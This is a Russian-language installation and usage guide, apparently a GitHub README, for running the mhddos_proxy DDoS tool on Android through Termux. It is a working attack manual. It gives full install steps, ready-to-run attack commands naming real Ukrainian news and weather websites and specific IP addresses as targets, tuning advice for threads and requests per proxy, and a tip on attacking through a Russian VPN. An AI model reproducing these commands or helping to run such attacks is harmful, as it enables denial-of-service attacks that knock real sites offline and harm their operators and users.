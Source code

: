 
<h1 align="center">mhddos_proxy for Android with Termux</h1>  
March 31, 2022

Windows / Linux / Mac / Android: [ссылка!](https://github.com/BionecX/mhddos_p/blob/main/docs/installation.md)


[Анализ средства mhddos_proxy (что он выводит, и все его преимущества)](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/README_analiz_sredstva_mhddos_h.md#%D0%B0%D0%BD%D0%B0%D0%BB%D0%B8%D0%B7-%D1%81%D1%80%D0%B5%D0%B4%D1%81%D1%82%D0%B2%D0%B0-mhddos_proxy) 


Если возникли какие-либо проблемы/вопросы – пишите мне в личные:
 (телеграм)

!!! СКАЧИВАТЬ НАДО САМОЕ APK НА GITHUB, В GOOGLE PLAY НЕ ПОДОЙТЕ (потому что там больше не поддерживается – будут ошибки)!!!

https://github.com/termux/termux-app/releases - выбираете: termux-app_v0.118.0+github-debug_universal.apk и скачиваете


!!!ПРИ УСТАНОВКЕ НАДО ДАТЬ ВСЕ РАЗРЕШЕНИЯ ПРОГРАММЕ!!!


## 1) Установка:   

  1. `apt update && apt upgrade -y`  
      (в процессе выполнения команды вам нужно будет пару раз прописать Y, чтобы подвергнуть обновлению, поэтому
      следите внимательно)    
  2. `pkg install python -y && pkg install rust -y && pkg install git -y`     
  3. `pip install --upgrade pip`      
  4. `cd ~`     
  5. `Здесь специфически зависит от архитектуры процессора.`  
      Но выставил вам скажем так приоритет, если вы не знаете какая у вас архитектура, то пробуйте устанавливать   
      это изменение перебирая мой приоритет до пока установки не будет успешным.

Приоритеты:

    export CARGO_BUILD_TARGET=aarch64-linux-android
    export CARGO_BUILD_TARGET=arm-linux-androideabi
    export CARGO_BUILD_TARGET=armv7-linux-androideabi
    export CARGO_BUILD_TARGET=i686-linux-android
    export CARGO_BUILD_TARGET=thumbv7neon-linux-androideabi
    export CARGO_BUILD_TARGET=x86_64-linux-android
    

   5.1. `export CARGO_BUILD_TARGET={архитектура процессора}`

У одного админа выглядит так:    
export CARGO_BUILD_TARGET=aarch64-linux-android   
В остальном так:  
export CARGO_BUILD_TARGET=x86_64-linux-android

!!! ЕСЛИ ВЫ ВЫБЕРЕТЕ НЕ ТУ АРХИТЕКТУРУ ТО НА ПУНКТЕ 12-13 БУДЕТ ОШИБКА ПРИ ЗАПУСКУ АТАКИ - РЕШЕНИЯ: ДАЛЬШЕ ПЕРЕБИРАТЬ АРХИТЕКТУРЫ (начиная с пункта 4)!!!

6. `termux-setup-storage`
7. `pkg install git -y`
8. `cd storage/shared` 
9. `rm -r mhddos_p`

Может выдать такое, но это норм – идите дальше:
rm: cannot remove 'mhddos_proxy': No such file or directory
или просто ничего не выдаст – идите дальше

10. `git clone https://github.com/BionecX/mhddos_p.git`
11. `cd mhddos_p`
12. `pip install -r requirements.txt`
13. 

        python runner.py https://znaj.ua https://www.gismeteo.ua https://24tv.ua -t 1000 --rpc 1000 --http-methods GET STRESS --debug


Если после перебора всех архитектур ничего не вышло, идите [сюда](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/ph_MHDDoS-Proxy-Termux-04-05.md) 


    Для DDoS с Android -t желательно не должно превышать 1000, а --rpc не более 1000


Готово теперь после полного закрытия Термукса, чтобы начать новую атаку надо:

![https://github.com/BionecX/mhddos_p_docs/blob/main/images/ph_mhddos-proxy-install-on-Linux-with-terminal-03-31_1.png](https://github.com/BionecX/mhddos_p_docs/blob/main/images/ph_mhddos-proxy-install-on-Linux-with-terminal-03-31_1.png)

## 2) Запуск команд

1. Открыть Termux через иконку на главном экране

2. Зайти в папку с mhddos_proxy – нужно ввести:

    `cd storage/shared/mhddos_p`

3. Обновить скрипт:

    `git pull origin main`

4. Скачать новые зависимости:

    `pip install -r requirements.txt`

5. Запустить атаку:

       python runner.py https://znaj.ua https://www.gismeteo.ua https://24tv.ua -t 1000 --rpc 1000 --http-methods GET STRESS --debug

## 3) Шаблон команды

   `python runner.py https://znaj.ua https://www.gismeteo.ua https://24tv.ua -t 1000 --rpc 1000 --http-methods GET STRESS --debug`


   python runner.py <Цели-сайты> --http-methods <Методы> -t <Потоки> --rpc <Подключение> -p <Обновление> --debug


* Цели-сайты – цели при проведении атаки на одном уровне и с использованием одного метода атаки, указанного в --http-methods, можно перечислять через пробел. В этом случае количество целей будет разделено на каждый метод равномерно от того количества, которое вы указали. 
* python – оболочка/приложение, которая будет читать и выполнять код программ runner.py
* runner.py – сам скрипт атаки
* Можно указывать в одной команде любые типы портов, например: http://, https://, tcp://, udp:// – все они будут разбиты на нужные методы, для http и https будут браться методы из перечня --http-methods , а для tcp и udp всегда используются методы TCP и UDP соответственно
* Метод - Со всеми методами можно ознакомиться на самом [гитхабе](https://github.com/MHProDev/MHDDoS#features-and-methods). Все команды, которые мы готовим в нашем канале – мы готовим уже с необходимыми для атаки методами. На одном уровне атаки методы можно перечислять через пропуск. Самые распространенные методы: 
    `--http-methods GET STRESS`
* Потоки – это количество "вредных" пакетов/запросов в количестве t * количество_ядер, отправляемых на цель. Здесь можно выкручивать по максимуму на столько, на сколько тянет ваш ПК (мониторите нагрузку в диспетчере задач, смотрим на ЦПУ и ОЗУ, в Kali Linux это зеленый и синий график соответственно). Будьте внимательны, в начале атаки нагрузка может быть минимальной, а спустя некоторое время зашкаливать. Учитывайте, что при увеличении пакетов/угрозов количество прокси-серверов может снизиться. По умолчанию 1000, по желанию - сколько влезет в вашу машину(но не больше 6000): В этой команде: `-t 1000` (для Termux не больше 1000)
* Подключение – здесь указываем предполагаемое количество подключений одного прокси-сервера. Оптимально указывать от 1000 до 2000. Предположим, что у вас 1000 прокси-серверов, при указании подключений в количестве 1000, вы отправите 1 000 000 пакетов на вашу цель (в идеале, но определенный процент пакетов скорее всего может потеряться). Теперь оптимальное значение: 
    `--rpc 1000`
* Период атаки - Значение указывается в секундах, по умолчанию это 300 секунд и это означает, что каждые 300 секунд вы будете обновлять список прокси-серверов и будете подключаться к ним (некоторые прокси могли забанить или соединение с ними может быть потеряно). Скрипт перезапускается автоматически, рекомендует указывать здесь не более 20 минут (1200), потому что чем будут чаще обновляться прокси, в разумных пределах, тем лучше.
    Пример оптимального обновления: `-p 3600`
* Также если вы подключены к VPN России можно добавить параметр --vpn , с помощью которого атака будет происходить напрямую из-под вашего IP, но тогда нужно переподключать VPN каждые 10-20 минут. 

  Например: 
  
      python3 runner.py https://172.67.147.246:443 http://172.67.164.142:80 https://213.59.253.7:443 -t 2000 -p 1200 --rpc 1000 --http-methods GET STRESS --debug --vpn

 
